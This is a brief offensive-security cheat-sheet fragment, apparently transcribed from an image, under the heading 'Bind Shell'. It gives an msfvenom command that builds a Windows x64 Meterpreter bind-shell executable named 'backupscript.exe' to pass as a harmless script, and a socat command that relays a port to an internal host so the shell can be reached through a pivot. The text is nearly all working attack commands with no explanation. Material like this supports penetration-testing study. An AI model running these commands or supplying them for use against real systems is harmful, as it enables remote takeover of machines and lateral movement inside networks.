 ## Bind Shell
Windows Payload 
```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

Socat Bind Shell 
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
